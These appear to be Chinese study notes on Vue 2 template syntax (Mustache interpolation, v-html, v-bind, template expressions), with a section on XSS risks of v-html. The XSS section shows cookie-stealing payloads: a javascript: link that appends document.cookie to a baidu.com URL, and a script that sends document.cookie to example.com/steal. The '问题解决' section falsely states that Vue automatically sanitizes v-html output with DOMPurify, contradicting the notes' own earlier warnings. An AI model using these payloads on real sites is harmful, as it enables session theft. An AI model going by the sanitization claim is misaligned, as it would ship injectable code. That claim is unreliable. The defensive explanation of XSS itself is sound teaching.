



# Mustache

## 目录

- [Mustache](#mustache)
  - [目录](#目录)
  - [文本](#文本)
  - [原始 HTML](#原始-html)
    - [XSS攻击](#xss攻击)
    - [攻击案例](#攻击案例)
    - [问题解决](#问题解决)
  - [Attribute](#attribute)
  - [使用 JavaScript 表达式](#使用-javascript-表达式)



> 📌**插值语法中直接插入methods就会显示一整个函数体，加上（）就是方法的返回值**

> 📌**常用在标签体中，功能：用于解析标签体内容；写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。**

Mustache 语法使用双大括号 `{{` 和 `}}` 包裹变量名或表达式，用于表示要在模板中插入的动态值。这样的标记会在渲染时被替换为实际的数据。

## [文本](https://v2.cn.vuejs.org/v2/guide/syntax.html#文本 "文本")

> 📌数据绑定最常见的形式就是使用Mustache语法 (双大括号) 的文本插值

```html
<span>Message: {{ msg }}</span>
```


## [原始 HTML](https://v2.cn.vuejs.org/v2/guide/syntax.html#原始-HTML "原始 HTML")

> 📌**双大括号会将数据解释为普通文本，而非 HTML 代码。为了输出真正的 HTML，你需要使用 **[**v-html**](https://v2.cn.vuejs.org/v2/api/#v-html "v-html")[\*\* 指令\*\*​](https://v2.cn.vuejs.org/v2/api/#v-html " 指令")**：**

```html
<p>Using mustaches: {{ rawHtml }}</p>
<p>Using v-html directive: <span v-html="rawHtml"></span></p>
```

这个 `span` 的内容将会被替换成为 property 值 `rawHtml`，直接作为 HTML——会忽略解析 property 值中的数据绑定。注意，你不能使用 `v-html` 来复合局部模板，因为 Vue 不是基于字符串的模板引擎。反之，对于用户界面 (UI)，组件更适合作为可重用和可组合的基本单位。

> 📌**你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 **[**XSS 攻击**](https://en.wikipedia.org/wiki/Cross-site_scripting "XSS 攻击")**。请只对可信内容使用 HTML 插值，绝不要对用户提供的内容使用插值。**

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>v-html指令</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
      <div>你好，{{name}}</div>
       <div v-html="str"></div>
      <div v-html="str2"></div> 
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
      el:'#root',
      data:{
        name:'赵新坤',
         str:'<h3>你好啊！</h3>',
        str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>', 
      }
    })
  </script>
</html>
```

- **预期**：`string`
- **详细**：

  更新元素的 `innerHTML`。**注意：内容按普通 HTML 插入 - 不会作为 Vue 模板进行编译**。如果试图使用 `v-html` 组合模板，可以重新考虑是否通过使用组件来替代。

> 📌在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting "XSS 攻击")。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

在[单文件组件](https://v2.cn.vuejs.org/v2/guide/single-file-components.html "单文件组件")里，`scoped` 的样式不会应用在 `v-html` 内部，因为那部分 HTML 没有被 Vue 的模板编译器处理。如果你希望针对 `v-html` 的内容设置带作用域的 CSS，你可以替换为 [CSS Modules](https://vue-loader.vuejs.org/en/features/css-modules.html "CSS Modules") 或用一个额外的全局 `<style>` 元素手动设置类似 BEM 的作用域策略。

> 📌用于将元素的 `innerHTML` 设置为表达式的值。

- 示例：

```html
//简单使用
<div id="app">
  <div v-html="htmlContent"></div>
</div>

<script>
  new Vue({
    el: '#app',
    data: {
      htmlContent: '<p style="color: red;">This is red text.</p>'
    }
  });
</script>


//动态更新
<div id="app">
  <div v-html="htmlContent"></div>
  <button @click="updateContent">Update Content</button>
</div>

<script>
  new Vue({
    el: '#app',
    data: {
      htmlContent: '<p style="color: red;">This is red text.</p>'
    },
    methods: {
      updateContent() {
        this.htmlContent = '<p style="color: blue;">This is blue text.</p>';
      }
    }
  });
</script>


```

- **参考**：[数据绑定语法 - 插值](https://v2.cn.vuejs.org/v2/guide/syntax.html#纯-HTML "数据绑定语法 - 插值")
- 注意事项
  - **安全性问题**：由于 `v-html` 会解析和执行插入的 HTML 代码，存在 XSS 攻击的风险。应确保插入的内容是可信的或已经过适当的消毒处理。
  - 对于需要插入用户生成的内容，可以使用库（如 `DOMPurify`）对 HTML 进行消毒：
  ```html
  <div id="app">
    <div v-html="safeHtmlContent"></div>
  </div>

  <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.2.9/purify.min.js"></script>
  <script>
    new Vue({
      el: '#app',
      data: {
        userInput: '<script>alert("XSS Attack!")</script>'
      },
      computed: {
        safeHtmlContent() {
          return DOMPurify.sanitize(this.userInput);
        }
      }
    });
  </script>

  ```
  - **性能开销**：频繁更新大量的 HTML 内容可能会影响性能，需要谨慎使用。

### XSS攻击

> 📌**XSS（跨站脚本攻击）是一种常见的网络安全漏洞，它允许攻击者将恶意脚本注入到可信任网页中，在用户浏览网页时执行这些恶意脚本，从而获取用户敏感信息或进行其他恶意行为。**

> 📌**你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 XSS 攻击。请只对可信内容使用 HTML 插值，绝不要对用户提供的内容使用插值。（工具抓取cookie，然后浏览器免密登录，然后读取账号密码）**





### 攻击案例

假设有一个 Vue 组件，其中使用了 `v-html` 指令来展示一个博客评论的内容：

```vue
<template>
  <div>
    <h2>评论内容</h2>
    <div v-html="commentContent"></div>
  </div>
</template>

<script>
export default {
  data() {
    return {
      commentContent: ''
    };
  },
  mounted() {
    // 模拟从后端获取的评论内容
    this.commentContent = '<script>alert("XSS攻击")</script>';
  }
};
</script>

```

在这个例子中，`commentContent` 的值来自后端，并且没有经过任何处理直接使用 `v-html` 展示在页面上。

攻击者可以在评论中注入恶意脚本，例如：

```vue
<script>
  window.location.href='https://www.example.com/steal?cookie='+document.cookie;
</script>
```

在这种情况下，当用户浏览该页面时，恶意脚本会被执行，将用户的 cookie 数据发送到攻击者指定的 URL。这样，攻击者就可以获取到用户的敏感信息。

**为了防止 XSS 攻击，应该始终对插入到 ****`v-html`**** 中的内容进行合适的过滤和转义处理。可以使用安全的 HTML 渲染库（如 DOMPurify）来过滤掉恶意的 HTML 标签和事件，或者使用 Vue 提供的文本插值方式（如双大括号 ****`{{ }}`****）来展示普通文本而非 HTML 内容。**

### 问题解决

> 📌为了避免v-html引起的XSS攻击问题，Vue提供了一种内置的安全机制来对插入到DOM中的HTML进行过滤，并确保其中不包含任何不安全的代码。具体来说，Vue.js会使用DOMPurify库来对v-html输出的HTML内容进行过滤，除去其中的JS脚本和其他不安全的HTML标签，从而防止XSS攻击。

> 📌除了使用v-html指令外，还有其他方法可以避免XSS攻击。例如，可以使用Vue.js提供的computed属性来计算需要渲染到页面上的HTML代码，从而确保只有受信任的HTML代码被渲染。此外，也可以使用encodeURIComponent()函数对插入到页面中的数据进行编码，以防止特殊字符被解释为HTML代码。

```text
encodeURIComponent()是JavaScript中一个用于对字符串进行编码的函数，它将字符串中的特殊字符进行编码，以便在URL或HTML属性中使用。具体来说，encodeURIComponent()会对所有非字母数字字符进行编码，包括ASCII字符集中除了字母数字字符外的所有字符，以及Unicode字符集中的所有字符。 

使用encodeURIComponent()函数可以避免一些安全隐患，比如XSS攻击，因为它会确保在将数据插入到URL或HTML属性中时，不会将特殊字符解释为代码，从而防止恶意代码执行。

以下是一个使用encodeURIComponent()函数的示例：


const myString = 'Hello, world!';
const encodedString = encodeURIComponent(myString);
console.log(encodedString); // "Hello%2C%20world%21"


在上面的例子中，我们首先定义了一个名为myString的字符串变量，该字符串中包含一些特殊字符。然后，我们使用encodeURIComponent()函数对该字符串进行编码，并将编码后的字符串存储在名为encodedString的变量中。最后，我们将编码后的字符串输出到控制台中，可以看到所有特殊字符都被编码成了相应的字符串表示形式，例如“%2C”代表逗号，"%20"代表空格，"!"代表感叹号等。

总之，在编写Web应用程序时，我们应该始终保持警觉，并确保对所有需要插入到URL或HTML属性中的数据进行编码，以防止安全漏洞和攻击。
```

## [Attribute](https://v2.cn.vuejs.org/v2/guide/syntax.html#Attribute "Attribute")

> 📌**Mustache 语法不能作用在 HTML attribute 上，遇到这种情况应该使用 **[**v-bind**](https://v2.cn.vuejs.org/v2/api/#v-bind "v-bind")[\*\* 指令\*\*​](https://v2.cn.vuejs.org/v2/api/#v-bind " 指令")**：**

```vue
<div v-bind:id="dynamicId"></div>
```

对于布尔 attribute (它们只要存在就意味着值为 `true`)，`v-bind` 工作起来略有不同，在这个例子中：

```vue
<button v-bind:disabled="isButtonDisabled">Button</button>
```

> 📌如果 `isButtonDisabled` 的值是 `null`、`undefined` 或 `false`，则 `disabled` attribute 甚至不会被包含在渲染出来的 `<button>` 元素中。

例如，在Vue组件中，可以使用v-bind指令将一个组件的属性绑定到一个数据属性上，从而动态地更新组件的属性值。例如：

```html
<template>
  <div>
     <a v-bind:href="link">{{ link }}</a> 
  </div>
</template>

<script>
export default {
  data() {
    return {
       link: 'https://www.example.com' 
    }
  }
}
</script>
```

- **缩写**：`:`
- **预期**：`any (with argument) | Object (without argument)`
- **参数**：`attrOrProp (optional)`
- 缩写
  ```html
  <!-- 完整语法 -->
  <a v-bind:href="url">...</a>

  <!-- 缩写 -->
  <a :href="url">...</a>

  <!-- 动态参数的缩写 (2.6.0+) -->
  <a :[key]="url"> ... </a>
  ```
- **修饰符**：
  - `.prop` - 作为一个 DOM property 绑定而不是作为 attribute 绑定。
  - `.camel` - (2.1.0+) 将 kebab-case attribute 名转换为 camelCase。(从 2.1.0 开始支持)
  - `.sync` (2.3.0+) 语法糖，会扩展成一个更新父组件绑定值的 `v-on` 侦听器。
- **用法**：
  - 动态地绑定一个或多个 attribute，或一个组件 prop 到表达式。
  - 在绑定 `class` 或 `style` attribute 时，支持其它类型的值，如数组或对象。
  - 在绑定 prop 时，prop 必须在子组件中声明。可以用修饰符指定不同的绑定类型。
  - 没有参数时，可以绑定到一个包含键值对的对象。注意此时 `class` 和 `style` 绑定不支持数组和对象。
- **示例**：
  ```javascript
  <!-- 绑定一个 attribute -->

   

  <!-- 动态 attribute 名 (2.6.0+) -->

  <button v-bind:[key]="value"></button>

  <!-- 缩写 -->

  

  <!-- 动态 attribute 名缩写 (2.6.0+) -->

  <button :[key]="value"></button>

  <!-- 内联字符串拼接 -->

  

  <!-- class 绑定 -->

  <div :class="{ red: isRed }"></div>

  <div :class="[classA, classB]"></div>

  <div :class="[classA, { classB: isB, classC: isC }]">

  <!-- style 绑定 -->

  <div :style="{ fontSize: size + 'px' }"></div>

  <div :style="[styleObjectA, styleObjectB]"></div>

  <!-- 绑定一个全是 attribute 的对象 -->

  <div v-bind="{ id: someProp, 'other-attr': otherProp }"></div>

   <!-- 通过 prop 修饰符绑定 DOM attribute -->

  <div v-bind:text-content.prop="text"></div>

  <!-- prop 绑定。“prop”必须在 my-component 中声明。-->

  <my-component :prop="someThing"></my-component>

  <!-- 通过 $props 将父组件的 props 一起传给子组件 -->

  <child-component v-bind="$props"></child-component> 

  <!-- XLink -->

  <svg><a :xlink:special="foo"></a></svg>
  ```
  `.camel` 修饰符允许在使用 DOM 模板时将 `v-bind` property 名称驼峰化，例如 SVG 的 `viewBox`property：
  ```javascript
  <svg :view-box.camel="viewBox"></svg>
  ```
  在使用字符串模板或通过 `vue-loader`/`vueify` 编译时，无需使用 `.camel`。
- **参考**：
  - [Class 与 Style 绑定](https://v2.cn.vuejs.org/v2/guide/class-and-style.html "Class 与 Style 绑定")
  - [组件 - Props](https://v2.cn.vuejs.org/v2/guide/components.html#通过-Prop-向子组件传递数据 "组件 - Props")
  - [组件 - ](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符 "组件 - ")[.sync](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符 ".sync")[ 修饰符](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符 " 修饰符")

在Vue中，attribute指的是HTML元素上的属性。这些属性可以作为组件的props接收到并在组件中使用。

## [使用 JavaScript 表达式](https://v2.cn.vuejs.org/v2/guide/syntax.html#使用-JavaScript-表达式 "使用 JavaScript 表达式")

> 📌**迄今为止，在我们的模板中，我们一直都只绑定简单的 property 键值。但实际上，对于所有的数据绑定，Vue.js 都提供了完全的 JavaScript 表达式支持。**

```vue
{{ number + 1 }}

{{ ok ? 'YES' : 'NO' }}

{{ message.split('').reverse().join('') }}

<div v-bind:id="'list-' + id"></div>
```

这些表达式会在所属 Vue 实例的数据作用域下作为 JavaScript 被解析。有个限制就是，每个绑定都只能包含**单个表达式**，所以下面的例子都**不会**生效。

```vue
<!-- 这是语句，不是表达式 -->
{{ var a = 1 }}

<!-- 流控制也不会生效，请使用三元表达式 -->
{{ if (ok) { return message } }}
```

> 📌模板表达式都被放在沙盒中，只能访问[全局变量的一个白名单](https://github.com/vuejs/vue/blob/v2.6.10/src/core/instance/proxy.js#L9 "全局变量的一个白名单")，如 `Math` 和 `Date` 。你不应该在模板表达式中试图访问用户定义的全局变量。

> 这句话的意思是，在Vue.js等框架的模板表达式中，开发者不能直接访问用户自定义的全局变量。模板表达式的执行环境受到限制，它只允许访问一组预先设定的全局对象（如Math、Date等JavaScript内置对象），而不允许随意访问在全局作用域下用户自己定义的变量或函数。

例如：

```vue
// 用户定义的全局变量
window.myGlobalVariable = 'Hello, World!';

// Vue组件模板
<template>
  <div>
    <!-- 这里不允许直接访问myGlobalVariable -->
    {{ myGlobalVariable }} <!-- 这将不会显示 "Hello, World!" -->

    <!-- 可以访问全局的Math对象 -->
    {{ Math.PI }} <!-- 正常显示Math.PI的值 -->
  </div>
</template>
```

> 如果确实需要在模板中使用自定义的全局变量，应该通过组件的数据属性（data）、计算属性（computed）或者方法（methods）间接提供给模板进行访问：

```javascript
// 在Vue组件内部注册数据或计算属性
export default {
  data() {
    return {
      // 将全局变量绑定到组件内部数据
      globalMessage: window.myGlobalVariable,
    };
  },
  computed: {
    // 或者通过计算属性来访问并转换全局变量
    formattedGlobalMessage() {
      return this.processGlobal(window.myGlobalVariable);
    },
  },
  methods: {
    processGlobal(message) {
      // 对全局变量进行处理
      return message.toUpperCase();
    },
  },
};

// 然后在模板中可以这样引用：
<template>
  <div>
    <!-- 访问组件内部数据 -->
    {{ globalMessage }}

    <!-- 访问经过计算属性处理后的值 -->
    {{ formattedGlobalMessage }}
  </div>
</template>
```

这样的设计有助于维护组件的封装性和安全性，避免模板层与全局状态直接耦合，同时也方便进行单元测试和代码审查。
